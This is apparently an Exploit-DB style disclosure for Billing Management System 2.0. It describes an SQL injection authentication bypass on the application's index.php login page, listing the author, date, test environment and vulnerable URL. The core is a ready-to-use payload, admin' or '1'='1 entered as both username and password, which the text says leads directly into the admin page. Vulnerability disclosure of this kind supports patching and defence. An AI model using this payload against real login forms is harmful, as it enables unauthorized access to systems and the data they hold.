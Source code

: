EXP
---

    # Exploit Title: Billing Management System 2.0 - 'email' SQL injection Auth Bypass
    # Date: 2021-02-16
    # Exploit Author: Pintu Solanki
    # Vendor Homepage: https://www.sourcecodester.com/
    # Software Link: https://www.sourcecodester.com/php/14380/billing-management-system-php-mysql-updated.html
    # Software: Billing Management System 2.0
    # Vulnerability Type: SQL injection - Auth Bypass
    # Tested On: Windows 10 Pro 10.0.18363 N/A Build 18363 + XAMPP V3.2.4
    # This application is vulnerable to SQL injection vulnerability.
    # Vulnerable Page: http://localhost/smartbilling/smartbilling_source_code/index.php
    # Payload used:

    Username => admin' or '1'='1
    Password => admin' or '1'='1

    # POC: Whenever we will go to the page (http://localhost/smartbilling/smartbilling_source_code/index.php) when we inject SQL Payload then we will directly enter into the admin page.